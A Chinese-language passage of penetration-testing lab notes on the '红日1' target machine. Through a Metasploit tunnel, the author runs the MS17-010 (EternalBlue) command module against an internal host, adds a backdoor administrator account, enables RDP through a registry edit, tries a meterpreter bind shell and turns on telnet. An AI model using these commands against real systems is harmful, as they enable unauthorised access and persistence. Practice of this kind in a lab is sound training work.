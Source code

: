 用msf链接隧道，setg为全局代理，后面再使用就不需要重新输入，测试目标的445端口

![141-445](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\141-445.png)

成功通过隧道进行扫描,对445端口测试永恒之蓝

```
use auxiliary/admin/smb/ms17_010_command

set COMMAND net user

set RHOST 192.168.52.141

exploit
```

发现成功执行命令

![141-net-user](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\141-net-user.png)

对目标机器添加用户

```
set COMMAND net user hacker uu2@123 /add
```

![141-net-user-add](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\141-net-user-add.jpg)

成功添加用户，为新用户添加管理员权限

```
set COMMAND net localgroup administrators hacker /add  #添加管理员权限
```

手动开启3389端口

```
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```

![141-3389-open](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\141-3389-open.png)

开启后使用rdesktop去连接

![141-rdesktop](E:\笔记软件\笔记\渗透测试\靶机练习\红日1\141-rdesktop.png)

这里的账户密码用我们新建的即可，成功登录目标主机，开始打shell回来

利用exploit/windows/smb/ms17_010_psexec ，创建windows/meterpreter/bind_tcp的正向shell,可是msf的session只是不断地增加，并没有返回shell

尝试利用telnet进行连接，直接利用远程桌面，手动开启telnet服务

```
sc config tlntsvr start= auto
net start telnet
netstat -an
```
